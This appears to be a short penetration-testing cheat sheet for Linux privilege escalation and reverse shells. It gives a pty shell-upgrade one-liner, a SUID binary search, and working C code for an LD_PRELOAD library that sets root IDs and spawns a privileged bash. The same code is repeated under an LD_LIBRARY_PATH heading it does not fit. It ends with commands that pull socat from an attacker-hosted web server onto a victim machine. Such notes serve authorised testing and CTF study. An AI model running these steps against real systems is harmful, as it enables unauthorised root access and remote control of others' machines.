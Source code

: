 #PrivEscalation

1. ** python -c 'import pty;pty.spawn("/bin/bash")' ** <== for a better listener shell experience

2. ** sudo -l **

3. ** find / -perm /6000 2>/dev/null | grep '/bin' ** <== find interesting tools that can exploit shell

4. https://gtfobins.github.io/ followed the interesting tools that can exploit 

5. 
###Take advantage of LD_PRELOAD in evn_keep

```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
###Take advantage of LD_LIBRARY_PATH in evn_keep
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```


6. 
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker


#Reverse Shell:
1. https://www.revshells.com/
2. MonkeyPenTest
3. Start webserver using python "sudo python3 -m http.server 80" then download files from victim shell 
Linux :"wget <LOCAL-IP>/socat -O /tmp/socat"
Windows: "Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe"


